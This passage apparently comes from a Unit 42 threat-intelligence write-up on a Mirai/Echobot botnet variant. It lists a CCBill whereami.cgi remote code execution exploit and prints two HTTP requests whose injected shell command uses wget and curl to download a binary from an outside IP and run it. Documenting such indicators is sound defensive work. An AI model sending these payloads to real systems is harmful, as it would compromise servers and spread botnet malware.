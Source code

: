 |[CCBill Remote Code Execution](https://autofocus.paloaltonetworks.com/#/tag/Unit42.CCBillRCE)|CCBill Online Payment Systems|80|```GET /ccbill/whereami.cgi?g=cd /tmp; wget http://145.249.106.241/richard; curl -O http://145.249.106.241/richard; chmod +x richard; ./richard HTTP/1.1```<br><br>```GET /cgi-bin/ccbill/whereami.cgi?g=cd /tmp; wget http://145.249.106.241/richard; curl -O http://145.249.106.241/richard; chmod +x richard; ./richard HTTP/1.1```|

Other exploits in this variant haave been mentioned in previous publications [here](https://github.com/pan-unit42/iocs/blob/master/mirai/ECHOBOT_6thAug2019.md) and [here](https://unit42.paloaltonetworks.com/new-mirai-variant-adds-8-new-exploits-targets-additional-iot-devices/).
